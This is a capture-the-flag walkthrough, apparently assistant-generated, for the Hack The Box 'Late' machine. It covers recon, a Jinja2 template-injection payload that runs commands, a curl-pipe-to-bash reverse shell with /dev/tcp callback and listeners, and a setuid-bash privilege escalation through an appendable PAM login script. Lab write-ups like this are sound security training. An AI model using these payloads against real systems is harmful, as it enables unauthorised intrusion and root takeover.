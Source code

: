 # 🔎 HTB: Late – Command & Exploit Notes

---

## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)

## ⚙️ Recon

### Nmap Scan
```bash
nmap -p- --min-rate 10000 10.10.11.156
nmap -p 22,80 -sCV 10.10.11.156
```
- **Open Ports**:
  - `22/tcp`: [SSH](SSH) - OpenSSH 7.6p1 (Ubuntu 18.04)
  - `80/tcp`: [HTTP](HTTP) - nginx 1.14.0

### Hosts File Entry
```bash
echo "10.10.11.156 late.htb images.late.htb" | sudo tee -a /etc/hosts
```

### Fuzzing Subdomains
```bash
wfuzz -u http://10.10.11.156 -H "Host: FUZZ.late.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --hh 9461
```
- Found: `images.late.htb`

### images.late.htb
- Online image OCR interface.
- Upload image ➔ converts to text ➔ returned as `results.txt`
- Mentions **Flask** backend

---

## 🚀 Initial Foothold (svc_acc)

### Vulnerability Discovery
- Image upload returns parsed text in a rendered Flask template.
- Test with image containing:
```
{{ 7*7 }}
```
- Returned: `49` ➔ **SSTI confirmed**

### Payload Trials
- Use [PayloadsAllTheThings Jinja2 RCE](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Injection/README.md#jinja2)
- Payload:
```jinja
{{ cycler.__init__.__globals__.os.popen('id').read() }}
```
- **Font Troubleshooting**:
  - Use **FreeMono** or similar monospaced font.
  - Goal: Accurate character recognition (underscores, parens, quotes)

### Reverse Shell
```jinja
{{ cycler.__init__.__globals__.os.popen("curl http://10.10.14.6/r | bash").read() }}
```
Create `/r` file on local server:
```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.6/443 0>&1
```
Then:
```bash
python3 -m http.server 80
nc -lnvp 443
```
- Shell returned as `svc_acc`

---

## 🔒 Privilege Escalation to root

### File Enumeration
```bash
ls -l /usr/local/sbin/ssh-alert.sh
lsattr /usr/local/sbin/ssh-alert.sh
```
- `ssh-alert.sh` runs on SSH login (from `/etc/pam.d/sshd`)
- Has **append-only (a)** extended attribute
- Script is **owned by svc_acc** and **appendable**

### Exploit via SSH Login Trigger
Append reverse shell prep to the script:
```bash
echo -e "cp /bin/bash /tmp/.0xdf\nchmod 4755 /tmp/.0xdf" >> /usr/local/sbin/ssh-alert.sh
```
Then re-login via SSH:
```bash
/tmp/.0xdf -p
```
- Root shell acquired.

---

## 🔊 Flags

### User
```bash
cat /home/svc_acc/user.txt
```

### Root
```bash
cat /root/root.txt
```

---

## 🔜 Beyond Root
- Debug web stack:
  - Nginx ➔ Gunicorn ➔ Flask App
- Logins trigger `pam_exec.so` ➔ `ssh-alert.sh` ➔ Email alert
- Overwrite abuse via append-only shell drop

---

Let me know if you want this converted for Obsidian, PDF, or Markdown export ✨


